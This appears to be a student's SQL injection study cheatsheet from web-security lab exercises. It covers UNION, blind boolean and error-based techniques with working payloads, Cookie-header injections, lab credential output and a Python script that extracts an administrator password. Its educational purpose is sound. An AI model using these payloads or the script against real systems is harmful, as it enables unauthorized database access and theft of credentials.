

# SQL Injection Cheatsheet

## SQL Injection examples

**1. Retrieving hidden data** - Where we can modify a SQL query to return additional results.

Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

```
https://insecure-website.com/products?category=Gifts
```

This causes the application to make a SQL query to retrive details of the relevant products from the database:

```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**1.1 How is the attack conducted**

If the application doesn't implement any defenses against SQL injection, the attacker can construct an attack like:

```
https://insecure-website.com/products?category=Gifts'--
```

Which will result in the SQL query

```SQL
SELECT * FROM products WHERE category = 'Gifts' --' And released = 1
```

As the double-dash sequence `--` is a comment indicator in SQL, meaning that everything behind the double-dash will be interpreted as a comment, effectively eliminating the condition of the query.

Going further, an attacker can cause the application to display all the products in any category, including categories that they dont know about"

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

This will result in the SQL query:

```SQL
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--'And released = 1
```

The query will return all items where either the category is `Gifts` or `True`.


**1.3 Note when using the condition OR 1=1**

This can be dangerous because it can lead to unexpected consequences, such as accidental deletion or modification of data.

```php
$sql = "SELECT * FROM users WHERE id = ". $id;
$result = mysqli_query($conn, $sql);
$sql = "UPDATE users SET email = '$new_email' WHERE id = " . $id;
mysqli_query($conn, $sql);
```

**2. Subverting application logic** - Where you can change a query to interfere with the application's logic.

Consider an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

```sql
SELECT * FROM users where username = 'wiener' AND password = 'bluecheese'
```

**2.1 How is the attack conducted**

Here, an attacker can log in as any user without a password simply by using SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query.

```sql
SELECT * FROM users where username = 'administrator' --' AND password = ''
```

This query returns the user whose username is `administrator` and successfully logs the attacker in as that user.

**3. Retrieving data from other database tables**

In cases where the results of a SQL query are returned within the application's responses, an attacker can leverage a SQL injection vulnerability to retrieve data from other tables within the database. This is done using the `UNION` keyword, which lets you execute an additional `SELECT` query and append the results to the original query.

```SQL
SELECT name, description FROm products WHERE category = 'Gifts'
```

Then the attacker can submit the input:

```sql
' UNION SELECT username, password FROM users--
```

This is called SQL injection UNION attacks.

**3.1 How is the attack conducted**

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns a and b in table1 and columns c and d in table2.

FOR a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each columns must be compatible between the individual queries.

To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:

**1. How many columns are being returned from the original query?**

**2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query**

### To determine how many columns are being returned, there are 2 possible methods.

**ORDER BY**, we can use a series of `ORDER BY` clauses to check until the specified column index return error. Supposed we have the following URL:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts
```

We can append the `Order by` clause until error occur

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts'ORDER BY 2--
```

BurpSuite can also be used by sending the request to the repeater and modify the request:

```
GET /filter?category=Gifts'+ORDER+BY+2-- HTTP/2
```

**UNION SELECT NULL**, we can use a series of `SELECT NULL` clause to do the same:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts%27UNION%20SELECT%20NULL,%20NULL,%20NULL--
```

We can again use BurpSuite for this task

```
GET /filter?category=Gifts'UNION+SELECT+NULL,+NULL,+NULL-- HTTP/2
```

**Note that SELECT NULL is used until the page return a valid response, while ORDER BY is used until the page return an error**

### To determine what is the type of the column that are being returned, we can use the UNION SELECT.

Supposed we have the following URL:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts%27UNION%20SELECT%20NULL,%20NULL,%20NULL--
```

As we have known that the table of this page has 3 columns, however, we dont know the type of each column. Therefore, we need to probe each column to find the column that hold string value.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
```

BurpSuite can also be used

```
GET /filter?category=Pets'UNION+SELECT+NULL,+'a',+NULL-- HTTP/2
```

**After finding out about the number of column and which column contain string, we can conduct our attack further as follows**

Suppose we have two column and both of them can contain text:

```
GET /filter?category=Gifts'UNION+SELECT+'text',+'text'-- HTTP/2
```

Suppose the site has a table name `user` and two column named `username` and `password`:

```
GET /filter?category=Gifts'UNION+SELECT+username,+password+from+users-- HTTP/2
```

And we will get all username and password from users table.


## Examining the database in SQL injection attacks

**Querying the database type and version**

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

```
Database type	        Query

Microsoft, MySQL	    SELECT @@version
Oracle	                SELECT * FROM v$version
PostgreSQL	            SELECT version()

For example, you could use a UNION attack with the following input:

' UNION SELECT @@version--
```

We also have to determine the number of column and which column hold string type as above, after that we can construct the following payload

**ORACLE**
```
GET /filter?category=Gifts'UNION+SELECT+BANNER,+NULL+FROM+v$version-- HTTP/2
```

**Microsoft, MySQL**
```
GET /filter?category=Gifts'UNION+SELECT+'a',+@@version# HTTP/2
```

**PostgreSQL**
```
GET /filter?category=Pets'UNION+SELECT+NULL,+version()-- HTTP/2
```

**NOTE THAT EACH TYPE OF DATABASE CAN HAVE DIFFERENT SYNTAX AND RULES**

https://portswigger.net/web-security/sql-injection/cheat-sheet


**Listing the contents of the database**

Most database types **(with the notable exception of Oracle)** have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:

**PostgreSQL**

We can get the information about tables in a database using this query

```
GET /filter?category=Pets'UNION+SELECT+NULL,+table_name+FROM+information_schema.tables-- HTTP/2
```

Then after crawling through the database, we can find a database about user named `users_axshys` for example, we can construct this payload to grap the information_schema of that table:

```
GET /filter?category=Pets'UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_axshys'-- HTTP/2
=> username_vpifva || password_demvhn
```

Then we can construct another payload to grap the `password` of a `username`:

```
GET /filter?category=Pets'UNION+SELECT+username_vpifva,+password_demvhn+FROM+users_axshys-- HTTP/2
=> administrator
=> y9bnn5zaggvm0tqlzh28
```


**ORACLE**

We do the exact same thing to determine the number of column and datatype of the column. Then we can construct this payload to get information about the tablel.

```
GET /filter?category=Accessories'UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
=> USERS_SLFIJA
```

Then we can construct this payload to get the columns in the users table:

```
GET /filter?category=Accessories'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_SLFIJA'-- HTTP/2
=> USERNAME_STSZRB || PASSWORD_CMZNIL
```

Finally we can canstruct this payload to grap the password and the username

```
GET /filter?category=Accessories'UNION+SELECT+USERNAME_STSZRB,+PASSWORD_CMZNIL+FROM+USERS_SLFIJA-- HTTP/2
=> administrator
=> yqpenkoqrqb8m2e0na2f
```

## Blind SQL injection

### What is Blind SQL injection

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

With blind SQL injection vulnerabilities, many techniques such as **UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses**. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using a SQL query like this:

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This is vulnerable to SQL injection, but the result from the query are not returned to the user.  However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a `"Welcome back"` message is displayed within the page.

To know if this pattern exist or not we can construct 2 payloads as follows:

```
TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND '1' = '1'
TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND '1' = '2'
```

**If the first payloads work AND the second payload doesnot work then this pattern is vulnerable to blind SQL injection**

### How to exploit blind SQL injection

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.

```
TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'm
TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 2, 1) = 't

=> If the first payload return the "Welcome back" then the first character of the password is 'm' and similarly if the second payload return it the second character is 't'
```

This can be done until the full password is retrieve.

**This method is, however, tidious if done manually, therefore there are some method to automatically exploit this vulnerability**

### Method to exploit this vulnerability

**It is noteworthy that the automate steps are done after the vulnerability has been found, meaning that the exploiter need to identify the vulnerability before extra steps can be taken.**

#### **1. BurpSuite**

**1.1 Identify whether the vulnerability exist**

After identifying the TrackingID, we can send the following payload to confirm that blind SQL injection can be used.

```
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+and+1=1--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m => This resulted in a "Welcome back" message, or any kind of pattern.
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+and+1=2--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m => This resulted in a 200 but a "Welcome back" message is not present, meaning that there is a SQL that check for TrackingID (SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4', for example), and it is vulnerable to blind SQL injection
```

**1.2 Confirm that we have a user table**

```
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(Select+'x'+FROM+users+LIMIT+1)='x'; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m
=> This payload first evaluate whether there is a table called users, if there is the parenthesis will return an 'x' to be compared with 'x' and the message will appear if this is true, meaning that there is a users table.
=> We have to limit the parenthesis to just 1 entry, if not, there will be n number of 'x' being returned (n is the number of entry or row in the table users) and this will destroy our payload making the evaluation meaningless.
```

**1.3 Confirm that we have a username called 'administrator'**

```
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m
=> If the message appear then there is a username called 'administrator' in the table called 'users'
```

**1.4 Enumerate over properties of the username we just found**

```
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(SELECT+password+FROM+users+WHERE+username='administrator')='a'--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m => this will check if the first character of the password is 'a' or not

Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(SELECT+username+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)>19)='administrator'--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m => this will check if the length of the password is larger than 19 or not, doing this for other number to find out the exact length of the password.
```

**However, these task can be done using BurpSuite Intruder**

First we send the request to intruder. Then we add variable to the number we want to enumerate, then we select payload and finally start the attack. Observe the response to spot abnomarlity and find out the length of the password.

After that we can enumerate the letter in 1.4 using the intruder as well. This can be done by add 2 variables, then we select payload number for the number varialbe and the payload string for the string variable.

```
Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(SELECT+substring(password,1,1)+from+users+where+username='administrator')='a'--'; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m
=> Cookie: TrackingId=GtUA2WO2iQpQ8YfU'+AND+(SELECT+substring(password,§1§,1)+from+users+where+username='administrator')='§a§'--; session=aA8ONtBmgC6Db1CpnMWWiRi4DP11D71m

This will give us the password as g8omov0diskzzg4lngtn
```

#### **2. Python Script**

```Python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def sqli_password(url,TrackingID,session):
    password_extracted = ""
    for i in range(1,21):
        for j in range(32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" % (i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingId': TrackingID + sqli_payload_encoded, 'session': session}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if "Welcome" not in r.text:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main():
    if len(sys.argv) != 4:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    TrackingID = sys.argv[2]
    session = sys.argv[3]
    print("(+) Retrieving administrator password...")
    sqli_password(url,TrackingID,session)

if __name__ == "__main__":
    main()
```

## Error-based SQL injection

Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts. The possibilities depend largely on the configuration of the database and the types of errors you're able to trigger:

**1.1 Confirm that parameter is vulnerable**

```
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+'' from dual)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO => 200 indicating that we are dealing with Oracle database
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+''from dualsds)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO => 500 indicating that this parameter is vulnerable
```

**1.2 Figuring out the table name**

```
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+''+from+users+where+rownum=1)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO => 200 indicating that there is a users table in the database
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+''+from+userssd+where+rownum=1)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO => 500 indicating that there is no users table
```

**1.3 Figuring out the username and test if the parameter accept error-based SQLi**

```
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+''+from+users+where+username='administrator')+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> There is an username called administrator in the users table => 2LNmzi2Ie7ReDoid' || (SELECT '' from users where username='administrator') || '

Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=0)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> If this evaluated to 200 then it means that this parameter will evaluate the correctness of the input SQL statement, making it vulnerable to error-based injection
2LNmzi2Ie7ReDoid' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '

Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> This is used to confirm our theory, if this is evaluated to false then the parameter is vulnerable.

Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> This will be 500 if there is a usernamme called administrator in the table users, therefore, we can now enumerate the properties of this username.
```

**1.4 Enumerate through the properties of this parameter**

```
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator'+AND+LENGTH(password) >1)+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> This is use to check for the length of the password
```



```
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a')+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
=> If the first letter of the password is 'a' then this will return a 500. Because:
1. FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a'   => This is evaluate first, if this expression is true then the select statement will be executed.
2. SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END   => If the select statement is executed then it will execute TO_CHAR(1/0) and return an invalid response making the response 500, and the else will never be executed as 1 is always equal to 1.

Our final payload for BurpSuite intruder is as follows:
Cookie: TrackingId=2LNmzi2Ie7ReDoid'+||+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='a')+||+'; session=P861tigsm0gvBwyPcqF1Uly9QcHANmBO
```